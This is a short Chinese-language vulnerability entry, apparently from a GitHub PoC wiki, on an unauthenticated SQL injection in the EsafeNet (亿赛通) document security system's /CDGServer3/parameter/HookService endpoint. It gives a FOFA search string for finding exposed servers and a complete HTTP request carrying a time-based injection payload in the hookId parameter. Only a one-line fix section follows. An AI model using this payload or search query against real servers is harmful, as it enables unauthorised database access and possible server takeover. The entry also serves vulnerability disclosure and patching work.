

# 亿赛通EsafeNet HookServiceSQL注入漏洞 

# 漏洞描述

忆赛通电子文档安全管理系统/CDGServer3/parameter/HookService处存在SQL注入漏洞，未经身份验证的远程攻击者可利用此漏洞获取数据库敏感信息，进一步利用可获取服务器权限。

# 影响版本

亿赛通

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：body="/CDGServer3/index.jsp"

POC/EXP：

GET /CDGServer3/parameter/HookService;logindojojs?command=DelHookService&hookId=1%27;if(db_name()=%27CobraDGServer%27)+WAITFOR+DELAY+%270:0:5%27--  HTTP/1.1
Host: 127.0.0.1
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=2E1EFAD5AA93A73F4184D010D43FF077

# 修复方案

关闭互联网暴露面或接口设置访问权限

升级至安全版本

---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
